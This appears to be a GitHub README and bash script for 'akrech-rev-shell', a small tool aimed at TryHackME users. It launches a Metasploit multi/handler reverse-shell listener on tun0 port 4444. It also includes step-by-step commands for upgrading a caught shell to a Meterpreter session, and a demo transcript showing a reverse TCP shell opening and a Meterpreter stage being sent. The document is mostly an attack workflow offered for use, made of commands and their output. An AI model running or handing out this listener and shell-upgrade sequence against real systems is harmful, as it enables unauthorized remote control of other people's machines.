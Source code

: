 # akrech-rev-shell

██╗░░░██╗██████╗░░██████╗░██████╗░░█████╗░██████╗░███████╗  ██╗░░░██╗░█████╗░██╗░░░██╗██████╗░
██║░░░██║██╔══██╗██╔════╝░██╔══██╗██╔══██╗██╔══██╗██╔════╝  ╚██╗░██╔╝██╔══██╗██║░░░██║██╔══██╗
██║░░░██║██████╔╝██║░░██╗░██████╔╝███████║██║░░██║█████╗░░  ░╚████╔╝░██║░░██║██║░░░██║██████╔╝
██║░░░██║██╔═══╝░██║░░╚██╗██╔══██╗██╔══██║██║░░██║██╔══╝░░  ░░╚██╔╝░░██║░░██║██║░░░██║██╔══██╗
╚██████╔╝██║░░░░░╚██████╔╝██║░░██║██║░░██║██████╔╝███████╗  ░░░██║░░░╚█████╔╝╚██████╔╝██║░░██║
░╚═════╝░╚═╝░░░░░░╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚══════╝  ░░░╚═╝░░░░╚════╝░░╚═════╝░╚═╝░░╚═╝

███╗░░██╗░█████╗░██████╗░███╗░░░███╗░█████╗░██╗░░░░░
████╗░██║██╔══██╗██╔══██╗████╗░████║██╔══██╗██║░░░░░
██╔██╗██║██║░░██║██████╔╝██╔████╔██║███████║██║░░░░░
██║╚████║██║░░██║██╔══██╗██║╚██╔╝██║██╔══██║██║░░░░░
██║░╚███║╚█████╔╝██║░░██║██║░╚═╝░██║██║░░██║███████╗
╚═╝░░╚══╝░╚════╝░╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝╚══════╝

██████╗░███████╗██╗░░░██╗███████╗██████╗░░██████╗███████╗░░░░░░░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔════╝██║░░░██║██╔════╝██╔══██╗██╔════╝██╔════╝░░░░░░██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██████╔╝█████╗░░╚██╗░██╔╝█████╗░░██████╔╝╚█████╗░█████╗░░█████╗╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██╔══██╗██╔══╝░░░╚████╔╝░██╔══╝░░██╔══██╗░╚═══██╗██╔══╝░░╚════╝░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░░██║███████╗░░╚██╔╝░░███████╗██║░░██║██████╔╝███████╗░░░░░░██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═════╝░╚══════╝░░░░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

████████╗░█████╗░  ███╗░░░███╗███████╗████████╗███████╗██████╗░██████╗░██████╗░███████╗████████╗███████╗██████╗░
╚══██╔══╝██╔══██╗  ████╗░████║██╔════╝╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗
░░░██║░░░██║░░██║  ██╔████╔██║█████╗░░░░░██║░░░█████╗░░██████╔╝██████╔╝██████╔╝█████╗░░░░░██║░░░█████╗░░██████╔╝
░░░██║░░░██║░░██║  ██║╚██╔╝██║██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗██╔═══╝░██╔══██╗██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗
░░░██║░░░╚█████╔╝  ██║░╚═╝░██║███████╗░░░██║░░░███████╗██║░░██║██║░░░░░██║░░██║███████╗░░░██║░░░███████╗██║░░██║
░░░╚═╝░░░░╚════╝░  ╚═╝░░░░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ███████╗░█████╗░░██████╗██╗░░░██╗██╗░░░░░██╗░░░██╗
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ██╔════╝██╔══██╗██╔════╝╚██╗░██╔╝██║░░░░░╚██╗░██╔╝
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  █████╗░░███████║╚█████╗░░╚████╔╝░██║░░░░░░╚████╔╝░
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ██╔══╝░░██╔══██║░╚═══██╗░░╚██╔╝░░██║░░░░░░░╚██╔╝░░
██████╔╝██║░░██║███████╗███████╗███████╗  ███████╗██║░░██║██████╔╝░░░██║░░░███████╗░░░██║░░░
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝░░░╚═╝░░░


please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh

#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.

<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

#akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
#this tool is made for time saving & day-to-day usage.
#metasploit has must be installed to ran this script on your machine.
#found me on tweeter-- https://twitter.com/a_k_r_e_c_H
#download

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
